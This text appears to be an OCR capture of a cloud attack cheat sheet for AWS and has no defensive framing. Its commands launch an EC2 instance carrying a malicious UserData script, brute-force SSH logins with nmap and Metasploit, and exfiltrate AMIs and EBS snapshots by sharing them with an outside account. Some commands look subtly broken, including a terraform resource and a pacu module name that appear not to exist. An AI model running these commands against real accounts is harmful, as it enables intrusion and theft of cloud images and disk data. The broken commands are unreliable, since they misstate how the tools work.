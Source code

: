 
```
python -c "import boto3; ec2 = boto3.resource('ec2'); instance = ec2.create_instances(ImageId='<image_id>', InstanceType='<instance_type>', MinCount=1, MaxCount=1, UserData='#!/bin/bash\necho \"Malicious command here\"'); print(instance[0].id)"
```



### Open Ingress Port 22 on a Security Group


```
nmap -p 22 --script ssh-auth-methods --script-args ssh.username=<username>,ssh.password=<password> <target_IP>
```


```
msfconsole -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS <target_IP>; set USERNAME <username>; set PASSWORD <password>; run"
```


```
nmap -p 22 --script ssh2-enum-algos,ssh-hostkey,sshv1 <target_IP>
```



### Exfiltrate an AMI by Sharing It


```
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```


```
terraform import aws_ami_share.share <ami_id>/<recipient_account_ID>
```


```
python3 pacu.py --use single_module --module scanner/ami__account_accessibility --aws-region <AWS_region> --ami-id <image_ID>
```



### Exfiltrate EBS Snapshot by Sharing It


```
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```


```
terraform import aws_ebs_snapshot_create_volume_permission.share <snapshot_id>/<recipient_account_ID>
```
